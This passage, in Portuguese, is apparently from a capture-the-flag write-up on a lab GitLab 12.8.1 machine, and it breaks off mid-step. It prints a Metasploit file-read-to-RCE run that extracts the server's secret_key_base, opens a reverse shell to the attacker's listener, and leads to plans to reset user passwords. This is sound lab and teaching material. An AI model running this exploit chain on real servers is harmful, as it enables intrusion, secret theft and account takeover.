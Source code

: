 ## Initial Foothold

Já sabendo das contas da máquina e da possibilidade de leitura de arquivos arbitrários, pesquisei sobre como converter essa possibilidade em RCE, para assim obter um shell reverso. Após algumas leituras encontrei [um módulo do Metasploit](https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/) que se utiliza desta mesma vulnerabilidade para obter o `secret_key_base` do GitLab, e assim, com uma chamada de deserialization do cookie emitido, obter um shell reverso com a conta **git**.

```bash
msf6 exploit(multi/http/gitlab_file_read_rce) > run

[*] Started reverse TCP handler on 10.10.10.10:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user jdoe
[*] Created project /jdoe/vWL4JJIQ
[*] Created project /jdoe/NVfFvw3v
[*] Created issue /jdoe/vWL4JJIQ/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/zurc/.msf4/loot/20210219090516_default_10.10.10.216_gitlab.secrets_242811.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /jdoe/vWL4JJIQ
[*] Deleted project /jdoe/vWL4JJIQ
[*] Attempting to delete project /jdoe/NVfFvw3v
[*] Deleted project /jdoe/NVfFvw3v
[*] Command shell session 1 opened (10.10.10.10:4444 -> 10.10.10.216:35138) at 2021-02-19 09:05:22 -0300

id
uid=998(git) gid=998(git) groups=998(git)
```

## User flag

Com acesso à máquina iniciada enumeração utilizando o `linpeas.sh` do [PEAS Suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/README.md) que me ajudou muito a entender as possibilidades de exploração do GitLab, uma vez que não conheço bem a implementação do serviço. O Script detecta o serviço instalado e trouxe algumas informações interessantes sobre a máquina em questão:

- Enumeração das contas, onde pudemos notar que o usuário **dexter** (admin@example.com) é administrador.
- Execução dentro de um docker container, onde futuramente precisaremos escapá-lo para a máquina de fato.

Um dos pontos colocados pelo `linpeas.sh` durante a enumeração é a possibilidade de alterar a senha de qualquer usuário, o que tivemos sucesso a partir da execução dos comandos abaixo:
